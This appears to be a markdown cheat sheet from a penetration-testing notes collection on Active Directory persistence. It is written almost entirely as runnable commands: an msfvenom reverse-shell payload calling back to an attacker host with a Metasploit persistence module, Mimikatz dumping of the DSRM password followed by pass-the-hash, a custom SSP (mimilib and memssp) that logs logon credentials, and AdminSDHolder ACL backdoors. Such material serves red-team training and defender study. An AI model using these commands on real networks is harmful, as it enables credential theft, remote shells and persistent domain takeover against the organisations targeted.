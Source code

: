 ### Trough metasploit

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=445 -f exe -o shell.exe`
2. `use exploit/multi/handler`
3. `set payload windows/meterpreter/reverse_tcp`
4. after the shell is spawned: `background`
5. `use exploit/windows/local/persistence`
6. `set settion 1`
7. `run`
- If the session dies, just run again `run`
- [About Post-Exploitation](https://docs.rapid7.com/metasploit/about-post-exploitation/)

### DSRM

DSRM is Directory Services Restore Mode. There is a local administrator on every DC called "Administrator" whose password is the DSRM password. This is changed rarely and only manually. This is the longest persistence mechanism.

1. Dump DSRM password (needs DA privs): `Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <DC_IP>`
2. Change the logon behavior: `Enter-PSSession -Computername <DC_IP> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
3. Pass the Hash: `Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DOMAIN_NAME> /user:Administrator /ntlm:<NTLM_HASH> /run:powershell.exe"'`
4. `ls \\<DC_IP>\C$`

### Custom SSP

One reason because these techniques are talked is, yes are noisy but they are gonna be tested by real attackers (not all organizations are going to be targetted by ATPs or States)

- Drop the `mimilib.dll` to `system32` and add `mimilib` to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security` Packages:
  ```
  $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
  $packages += "mimilib"
  Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
  Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
  ```
- Inject into lsass (usable with Server 2019 and 2022 but not stable ): `Invoke-Mimikatz -Command '"misc::memssp"'`
- All local logons on the DC are logged to `C:\Windows\system32\mimilsa.log`

### ACLs - AdminSDHolder

- Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
  - `Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,<DC_NAME>,<DC_EXTENSION>' -PrincipalIdentity <USER> -Rights All -PrincipalDomain <DOMAIN_NAME> -TargetDomain <DOMAIN_NAME> -Verbose`
- Using ActiveDirectory Module and [RACE toolkit](https://github.com/samratashok/RACE):
   - `Set-DCPermissions -Method AdminSDHolder -SAMAccountName <USER> -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=<DC_NAME>,DC=<DC_EXTENSION>' -Verbose`
- Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder:
  - `Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,<DC_NAME>,<DC_EXTENSION>' -PrincipalIdentity <USER> -Rights ResetPassword -PrincipalDomain <DOMAIN_NAME> -TargetDomain <DOMAIN_NAME> -Verbose`
  - `Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,<DC_NAME>,<DC_EXTENSION>' -PrincipalIdentity <USER> -Rights WriteMembers -PrincipalDomain <DOMAIN_NAME> -TargetDomain <DOMAIN_NAME> -Verbose`
- Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:
  - `Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`
- For pre-Server 2008 machines:
  - `Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose`
